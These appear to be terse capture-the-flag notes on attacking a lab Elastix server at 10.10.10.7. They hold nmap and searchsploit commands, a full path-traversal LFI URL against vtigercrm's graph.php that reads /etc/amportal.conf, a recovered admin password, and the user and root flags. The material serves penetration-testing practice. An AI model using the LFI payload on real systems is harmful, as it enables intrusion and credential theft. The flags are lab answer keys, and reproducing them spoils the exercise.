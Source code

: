 furious 10.10.10.7
> 4559,25,3306,80,4190,10000,111,995,110,143,22,4445,443,993,%                                                                                                              

nmap -sC -sV -p4559,25,3306,80,4190,10000,111,995,110,143,22,4445,443,993 -Pn -n 10.10.10.7 -oN targeted

# 80
searchsploit elastix

## LFI
searchsploit -x php/webapps/37637.pl

https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

### searching for users
user: admin
password: jEhdIekWmdjE

## flags

user: aeff3def0c765c2677b94715cffa73ac
root: d88e006123842106982acce0aaf453f0
